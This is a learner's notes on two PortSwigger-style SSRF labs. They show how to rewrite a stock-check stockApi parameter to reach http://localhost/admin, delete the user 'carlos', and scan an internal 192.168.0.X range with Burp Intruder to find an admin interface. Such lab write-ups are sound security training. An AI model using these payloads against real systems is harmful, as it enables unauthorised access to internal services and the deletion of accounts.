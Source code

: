 
![[Screenshot_2023-08-27_11_16_34.png]]

Savitar explained this on other ocassion, but bassically is like request things to the local server, or localhost or some server working on the victims machine, and then retrieve data.

you can play with wfuzz and then search for ports http://localhost:port

# BASIC ATTACK TO LOCALHOST SERVER #


On check stock we see this(the query intercepted)
```
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```
ctrl+shift+u (url decode)

```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```

The new query is this

```
stockApi=http://localhost/admin
```

Now that we accessed to that resource we can delete it, if we investigate the url source, this is the path to delete it 
```
carlos - </span>
                            <a href="/admin/delete?username=carlos">
```

# Basic SSRF  against another back-end system #

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.


we need to find a valid ip, we can do it with burpsuit

```
stockApi=http://192.168.0.1:8080/admin

```

instead of 1 we select it and we put a list in the intruder of burpsuit


The 24 give a status 200 on the request
```
stockApi=http://192.168.0.24:8080/admin
```

